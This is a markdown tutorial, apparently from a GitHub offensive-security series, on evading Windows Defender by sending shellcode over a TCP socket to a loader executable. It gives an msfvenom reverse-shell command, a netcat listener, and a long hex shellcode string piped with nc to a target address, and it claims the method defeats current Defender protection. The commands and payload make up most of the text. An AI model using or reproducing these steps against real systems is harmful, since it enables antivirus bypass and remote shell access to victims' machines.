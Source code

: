 # Antivirus Evasion - Part 2

## Using Sockets to bypass Defender

We open a TCP socket port and send shellcode over that which is later executed to give reverse shell.

This works on latest defender as of Feb15 2021


### Steps 
- Prepare payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -b "\x00" -f csharp
```
- Once done compile the below code to generate exe which opens port 8080 on the ipv4 interface.
- Once done start reverse shell handler on kali
```
nc -nlvp 80
```
- Now send shellcode over the TCP socket which will be executed by executable.
```
python -c 'print "\xda\xc9\xbd\x4c\xee\xdc\x9e\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\x31\x6e\x17\x03\x6e\x17\x83\xa2\x12\x3e\x6b\xc6\x03\x3d\x94\x36\xd4\x22\x1c\xd3\xe5\x62\x7a\x90\x56\x53\x08\xf4\x5a\x18\x5c\xec\xe9\x6c\x49\x03\x59\xda\xaf\x2a\x5a\x77\x93\x2d\xd8\x8a\xc0\x8d\xe1\x44\x15\xcc\x26\xb8\xd4\x9c\xff\xb6\x4b\x30\x8b\x83\x57\xbb\xc7\x02\xd0\x58\x9f\x25\xf1\xcf\xab\x7f\xd1\xee\x78\xf4\x58\xe8\x9d\x31\x12\x83\x56\xcd\xa5\x45\xa7\x2e\x09\xa8\x07\xdd\x53\xed\xa0\x3e\x26\x07\xd3\xc3\x31\xdc\xa9\x1f\xb7\xc6\x0a\xeb\x6f\x22\xaa\x38\xe9\xa1\xa0\xf5\x7d\xed\xa4\x08\x51\x86\xd1\x81\x54\x48\x50\xd1\x72\x4c\x38\x81\x1b\xd5\xe4\x64\x23\x05\x47\xd8\x81\x4e\x6a\x0d\xb8\x0d\xe3\xe2\xf1\xad\xf3\x6c\x81\xde\xc1\x33\x39\x48\x6a\xbb\xe7\x8f\x8d\x96\x50\x1f\x70\x19\xa1\x36\xb7\x4d\xf1\x20\x1e\xee\x9a\xb0\x9f\x3b\x0c\xe0\x0f\x94\xed\x50\xf0\x44\x86\xba\xff\xbb\xb6\xc5\xd5\xd3\x5d\x3c\xbe\x1b\x09\x44\x3f\xf4\x48\xb8\x3f\x54\xc4\x5e\x55\x44\x80\xc9\xc2\xfd\x89\x81\x73\x01\x04\xec\xb4\x89\xab\x11\x7a\x7a\xc1\x01\xeb\x8a\x9c\x7b\xba\x95\x0a\x13\x20\x07\xd1\xe3\x2f\x34\x4e\xb4\x78\x8a\x87\x50\x95\xb5\x31\x46\x64\x23\x79\xc2\xb3\x90\x84\xcb\x36\xac\xa2\xdb\x8e\x2d\xef\x8f\x5e\x78\xb9\x79\x19\xd2\x0b\xd3\xf3\x89\xc5\xb3\x82\xe1\xd5\xc5\x8a\x2f\xa0\x29\x3a\x86\xf5\x56\xf3\x4e\xf2\x2f\xe9\xee\xfd\xfa\xa9\x1f\xb4\xa6\x98\xb7\x11\x33\x99\xd5\xa1\xee\xde\xe3\x21\x1a\x9f\x17\x39\x6f\x9a\x5c\xfd\x9c\xd6\xcd\x68\xa2\x45\xed\xb8"' | nc 192.168.122.189 8080
```

Code:
Full code can be found [here](../days/day2.cs)

## Pre-Requisite
- The structure of the VirtualAlloc,CreateThread and WaitForSingleObject has been explained on [day1](../days/day1.md)
- Reason for doing `shellcode.Length-1` is that upon sending the shellcode over nc there would be extra new linw which is not part of shellcode.
- I dont find need to consider cases where shellcode is greater than 1024 since that is very impractical for most of use cases.

## Reference
- The idea was taken from [Ired Teams](https://www.ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code). The techinique is still valid and works on all level of protection by defender.
